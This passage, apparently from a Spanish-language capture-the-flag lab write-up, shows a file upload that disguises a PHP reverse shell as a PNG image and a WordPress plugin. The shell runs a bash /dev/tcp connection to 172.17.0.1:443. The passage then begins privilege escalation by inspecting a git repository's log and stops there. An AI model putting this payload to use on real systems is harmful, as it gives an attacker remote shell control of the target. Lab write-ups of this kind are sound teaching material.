    ```bash
Content-Type: image/png

PNG;
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------152487651215257063462338780959--


```


Seguro que hay muchas vulnerabilidades, pero vamos a pasar a la escalada. 
# ESCALADA PRIVILEGIOS

Tras un rato buscando y ver en /var/www/html/desarrollo un **.git**, veo a ver si hay algo que me interese :

```bash
git log
fatal: detected dubious ownership in repository at '/var/www/html/desarrollo'
To add an exception for this directory, call:

  git config --global --add safe.directory /var/www/html/desarrollo


git config --global --add safe.directory /var/www/html/desarrollo
fatal: $HOME not set
export HOME=/var/www/html/uploads
git config --global --add safe.directory /var/www/html/desarrollo
git log
```

Al principio nos da problemas, necesitamos configurar la variable HOME, en el log vemos lo siguiente:

```bash

commit 0baffeec1777f9dfe201c447dcbc37f10ce1dafa
Author: adm <adm@example.com>
Date:   Mon Oct 14 07:44:17 2024 +0000

    Acceso a Remote Management


```
